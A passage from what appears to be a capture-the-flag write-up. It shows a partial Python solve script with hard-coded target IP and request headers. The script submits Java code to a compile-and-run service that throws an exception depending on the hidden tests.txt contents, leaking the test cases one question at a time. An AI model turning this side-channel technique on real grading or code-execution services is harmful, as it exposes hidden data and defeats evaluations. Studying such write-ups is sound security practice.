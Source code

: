 Ok so we can cleverly ask questions now, essentially binary searching the tests.txt file in the backend.

I wrote this super janky ass solve script on way too few hours of sleep. It will pull out all the test cases.

```python
import requests
from urllib.parse import quote

burp0_url = "http://157.230.16.162:10009/compile_and_run"
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://157.230.16.162:10009", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://157.230.16.162:10009/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}

#This java code is used to get how many tests 
javatests = '''import java.io.BufferedReader;
import java.io.File;
import java.io.FileReader;
import java.io.IOException;
import java.util.ArrayList;
import java.util.List;

public class Run {
    public static void main(String[] args) {

        File graph = new File(args[0]);
        File tests = new File(args[1]);

        List<String> graph_content = readFileContent(graph);
        List<String> test_content = readFileContent(tests);

        if (Integer.parseInt(test_content.get(FIRST)) > SECOND){
            throw new RuntimeException();
        }else{
            return;
        }
    }

    private static List<String> readFileContent(File file) {
        List<String> lines = new ArrayList<>();
        try (BufferedReader reader = new BufferedReader(new FileReader(file))) {
            String line;
            while ((line = reader.readLine()) != null) {
                lines.add(line);
            }
        } catch (IOException e) {
            System.err.println("An error occurred while reading the file: " + file.getPath());
            e.printStackTrace();
        }
        return lines;
    }
}
'''
#This java code is used to getting the inputs
javainputs = '''import java.io.BufferedReader;
import java.io.File;
import java.io.FileReader;
import java.io.IOException;
import java.util.ArrayList;
import java.util.List;

```